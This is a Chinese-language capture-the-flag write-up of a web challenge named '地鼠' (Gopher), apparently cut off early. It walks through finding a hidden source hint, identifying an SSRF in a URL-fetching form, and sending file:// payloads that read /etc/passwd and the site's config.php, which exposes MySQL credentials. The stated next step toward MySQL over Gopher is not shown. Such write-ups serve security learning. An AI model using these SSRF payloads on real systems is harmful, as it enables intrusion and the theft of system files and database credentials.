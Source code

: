 [TOC]



## Web - 地鼠

这题没什么技巧，就是想让大家认识一下 Gopher 协议连接 MySQL。

1. 查看源代码有提示

   ```
   <!-- index.php?kk=1-->
   ```

2. 访问`http://111.231.101.223:10005/index.php?debug=kk`有源码提示

```php
<?php 
include_once "config.php"; 
if (isset($_POST['url'])&&!empty($_POST['url'])) 
{ 
    $url = $_POST['url']; 
    $content_url = getUrlContent($url); 
} 
else 
{ 
    $content_url = ""; 
} 
if(isset($_GET['debug'])) 
{ 
    show_source(__FILE__); 
} 
?> 
```

这里有一个 getUrlContent 函数，先盲猜是 ssrf，随便输个东西进去，返回

![1568338282571.png](https://i.loli.net/2019/09/15/oPMkxF2wnlJH5gc.png)

规定 localhost，那我们首先试一下伪协议吧，构造如下 payload 发现可读

```
url=file://localhost/etc/passwd
```

![1568338345764.png](https://i.loli.net/2019/09/15/Ixpa2BsAJo7DPcE.png)

那就直接读一下 config.php 文件，构造

```
url=file://localhost/var/www/html/config.php
```

```php
<?php
$hosts = "localhost";
$dbusername = "kkk";
$dbpasswd = "";
$dbname = "kap0k";
$dbport = 3306;

$conn = mysqli_connect($hosts,$dbusername,$dbpasswd,$dbname,$dbport);

function initdb($conn)
{
    $dbinit = "create table if not exists wyf(secret varchar(100));";
    if(mysqli_query($conn,$dbinit)) return 1;
    else return 0;
}

```